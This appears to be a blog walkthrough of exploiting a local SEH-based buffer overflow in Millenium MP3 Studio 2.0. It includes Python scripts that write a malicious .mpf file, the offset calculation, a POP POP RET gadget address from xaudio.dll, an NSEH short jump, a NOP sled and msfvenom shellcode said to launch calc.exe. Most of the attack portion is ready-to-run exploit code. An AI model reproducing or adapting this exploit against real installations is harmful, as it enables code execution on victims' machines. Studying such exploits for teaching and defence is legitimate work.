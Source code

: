 ```yaml
---
layout: single
title: Local SEH overflow - exploitation of Millenium MP3 Studio 2.0 with a calc.exe shellcode payload
---
```


The victim program for this walkthrough is `Millenium MP3 Studio 2.0`, it includes a local SEH based buffer overflow when opening certain sized files with specific file extensions.

Start by attaching an immunity debugger to the running MP3 Studio process.

![local seh 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh1.png)

The basic concept for exploiting a local Structured Exception Handler based buffer overflow, is that you will create a malicious text file that includes the payload that you are going to manually enter into a vulnerable input field, or instead of a text file, you will generate a malicious payload embedded within something other than a text file, for example, this target application includes a buffer overflow when parsing certain types of data files, with a .mpf file extension, we will generate our malicious payload.

We can start the exploitation process by creating a basic python script that opens up a new file and inputs a large buffer of data into it.

```python
from struct import *

malicious_file = "evil.mpf"

payload = "A" * 10000 # the maliciously large buffer

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
except:
    print("[!] Error creating the exploit")
```

After running the newly-created script, you can now open this malicious .mpf  File in the MP3 Studio application, while the MP3 Studio application is still attached to immunity to bugger. Now you should be able to witness the buffer overflow vulnerability Being triggered, and you should experience an exception crash.

![local seh 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh2.png)

If you look at the stack panel within Immunity, you can see the malicious payload has been written on to the stack.

![local seh 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh3.png)

Now that you can trigger the vulnerability with a very large sized buffer, you want to calculate the buffer size to fill before overwriting any SEH handlers. You can use the Metasploit patter_create and pattern_offset tools to do this.

```
./pattern_create.rb -l 8000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0....
```
This will create a unique cyclic pattern that will allow you to spot and calculate the buffer size on the basis that if every few bytes of this string is unique, you can calculate where the overwritten data comes from in this unique pattern.

Include this string in your exploit, and run it all through Immunity again, when it crashes this time, use the `!mona findmsp` command to locate any overwritten SEH locations and registers, and see where they have been overwritten.

[local seh 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh6.png)

In order to actually exploit this, you need to obtain a POP POP RET  gadget, this can be done with MONA.py  via the !seh -n  command. The POP POP RET sequence will be overwriting the NSEH (next structured exception handler in the SEH chain)

Running this command will search through the program for the needed sequence, this POPPOPRET sequence will return execution flow back to the structured exception Handler, the goal is to overwrite both the exception Handler and the next structured exception Handler. 

![local seh 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh4.png)

And the next structured exception Handler will be overwritten with this sequence that we discover, returning normal flow back to the user-controlled structured exception Handler.

Which you can then add a short jump over the next structure exception Handler, which then jumps into a NOP sled and to your final shellcode payload

Run these new addresses through struct.pack in order to arrange them properly with little endian format.


```python
from struct import *

malicious_file = "evil.mpf"

# Log data, item 36
# Address=0BADF00D
# Message=    SEH record (nseh field) at 0x0018f948 overwritten with normal pattern : 0x31684630 (offset 4112), followed by 1712 bytes of cyclic data after the handler

seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH

# shellcode payload that is generated from msfvenom
shellcode = (
"\xdb\xc8\xba\x50\xf4\xd9\x51\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x31\x31\x56\x18\x83\xee\xfc\x03\x56\x44\x16\x2c\xad\x8c\x54"
"\xcf\x4e\x4c\x39\x59\xab\x7d\x79\x3d\xbf\x2d\x49\x35\xed\xc1"
"\x22\x1b\x06\x52\x46\xb4\x29\xd3\xed\xe2\x04\xe4\x5e\xd6\x07"
"\x66\x9d\x0b\xe8\x57\x6e\x5e\xe9\x90\x93\x93\xbb\x49\xdf\x06"
"\x2c\xfe\x95\x9a\xc7\x4c\x3b\x9b\x34\x04\x3a\x8a\xea\x1f\x65"
"\x0c\x0c\xcc\x1d\x05\x16\x11\x1b\xdf\xad\xe1\xd7\xde\x67\x38"
"\x17\x4c\x46\xf5\xea\x8c\x8e\x31\x15\xfb\xe6\x42\xa8\xfc\x3c"
"\x39\x76\x88\xa6\x99\xfd\x2a\x03\x18\xd1\xad\xc0\x16\x9e\xba"
"\x8f\x3a\x21\x6e\xa4\x46\xaa\x91\x6b\xcf\xe8\xb5\xaf\x94\xab"
"\xd4\xf6\x70\x1d\xe8\xe9\xdb\xc2\x4c\x61\xf1\x17\xfd\x28\x9f"
"\xe6\x73\x57\xed\xe9\x8b\x58\x41\x82\xba\xd3\x0e\xd5\x42\x36"
"\x6b\x29\x09\x1b\xdd\xa2\xd4\xc9\x5c\xaf\xe6\x27\xa2\xd6\x64"
"\xc2\x5a\x2d\x74\xa7\x5f\x69\x32\x5b\x2d\xe2\xd7\x5b\x82\x03"
"\xf2\x3f\x45\x90\x9e\x91\xe0\x10\x04\xee")

payload = "A" * 4112 # after calculating the buffer size that triggers this specific vulnerability
payload += nseh
payload += seh
payload += "\x90" * 100
payload += shellcode

# Log data, item 24
# Address=10014E98
# Message=  0x10014e98 : pop esi # pop ecx # ret  |  {PAGE_EXECUTE_READ} [xaudio.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v3.0.7.0 (c:\mp3-millennium\xaudio.dllpayload_execution = open(malicious_file, 'w+')

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
    print("[x] Sending junk")
    print("[x] Sending POP POP RET via controlled SEH handler")
    print("[x] Jumping to shellcode")
except:
    print("[!] Error creating the exploit")
```

Now you can pop a calculator through this local SEH overflow.

![local seh 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh5.png)
